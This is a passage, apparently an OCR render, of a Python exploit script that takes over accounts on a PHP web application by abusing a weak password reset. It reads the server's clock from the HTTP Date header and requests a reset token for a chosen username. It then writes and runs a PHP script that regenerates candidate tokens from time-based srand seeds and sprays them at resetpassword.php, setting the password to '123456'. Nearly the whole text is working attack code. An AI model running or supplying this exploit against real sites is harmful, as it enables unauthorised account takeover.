 ```py
    url = 'http://' + rhost
    b = r.get(url, proxies=proxies)
    global currentTime
    currentTime = int((datetime.datetime.strptime(b.headers['date'], '%a, %d %b %Y %H:%M:%S %Z')  - datetime.datetime(1970,1,1)).total_seconds())
    return currentTime * 1000
    print("[+] Done! [+]")

# Send token, to get it valid
def sendToken(rhost,username): 
    print("[+] Send the token for the username: %s ! [+]" %username)
    url = "http://%s:80/forgotpassword.php" %rhost
    headers = {"Content-Type": "application/x-www-form-urlencoded"}
    data = {"username": "%s" %username}
    r.post(url, headers=headers, data=data, proxies=proxies)
    print("[+] Sent ! [+]")
    
# Function to mount the php payload to make the spray
def mountPhpSpray(seed1,seed2):
    print("[+] Let's mount the php seed generator ! [+]")
    payload = "<?php\n"
    payload += "function generateToken($value) {\n"
    payload += "    srand(round($value));\n"
    payload += "    $chars = 'abcdefghijklmnopqrstuvwxyzABCDEFGHIJKLMNOPQRSTUVWXYZ0123456789_';\n"
    payload += "    $ret = '';\n"
    payload += "    for ($i = 0; $i < 32; $i++) {\n"
    payload += "        $ret .= $chars[rand(0,strlen($chars)-1)];\n"
    payload += "    }\n"
    payload += "    return $ret;\n"
    payload += "}\n"
    payload += "foreach (range(" + str(seed1) + "," + str(seed2) + ") as $value) {\n"
    payload += "    echo generateToken($value);\n"
    payload += "    echo \"\\n\";\n"
    payload += "}\n"
    payload += "?>\n"
    f = open("spray.php", "w")
    f.write(payload)
    f.close()
    os.system("php spray.php > seed_list.txt")
    print("[+] Seed list created ! [+]")
    
# Let's spray the token
def sprayToken(rhost):
    print("[+] Let's spray ! [+]")
    url = "http://%s:80/resetpassword.php" %rhost
    headers = {"Content-Type": "application/x-www-form-urlencoded"}
    f = open("seed_list.txt", "r")
    values = f.readlines()
    for token_value in values:
        token_value = token_value.rstrip()
        data = {"token": "%s" %token_value, "password1": "123456", "password2": "123456"}
        res = r.post(url, headers=headers, data=data, proxies=proxies)    
        if res.headers['Content-Length'] != "578":
            print("[+] Password Changed !! [+]")
            print("[+] Token Used: %s ! [+]" %token_value) 
            print("[+] New password: 123456 [+]")
            break
        else:
            continue
            
# Function to login as the user sprayed
def loginUser(rhost,username):
    print("[+] Let's login with the user: %s !! [+]" %username)
```